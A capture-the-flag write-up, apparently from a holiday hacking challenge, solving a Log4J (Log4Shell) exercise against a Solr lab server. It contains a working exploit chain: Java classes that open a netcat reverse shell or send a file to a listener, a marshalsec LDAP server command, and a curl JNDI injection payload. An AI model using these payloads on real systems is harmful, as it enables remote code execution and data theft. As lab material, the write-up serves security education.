 # Bonus Red Log4Jack
**Location: North Pole**
**Troll: Icky McGoop**

This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.
Multiple terminal session are created automatically, one running a web server serving from `/home/troll/web` on port 8080, another one running a netcat listener on port 4444.

The objective is to retrieve the file `/home/solr/kringle.txt` from a web service running solr on http://solrpower.kringlecastle.com:8983/.

First a Java class `Joergen` creating a reverse shell is created:
```java
public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.
This is placed in the web tree, so that the web server is able to hand out this class.
Next the [marshalsec](https://github.com/mbechler/marshalsec) installation residing in `/home/troll/marshalsec`  is started:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
```
*WEBSERVERIP* has to be replaced with the terminal's IP address.
This application acts as an LDAP server and uses the Java class on the web server as remote code base.

Finally the Log4J vulnerability is triggered:
```bash
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
```
*MARSHALSECIP* has to be replaced with the terminal's IP address.

This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file `kringle.txt` to be retrieved.
```bash
cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
```
So **patching** is the solution.

### Alternative 1: just reading the targeted file
```java
import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

### Alternative 2: pure Java solution, hence platform independant
```java
import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
      Socket socket=new Socket("CLIENTIP",4444);
      PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

**Achievement: Log4J Red Bonus**

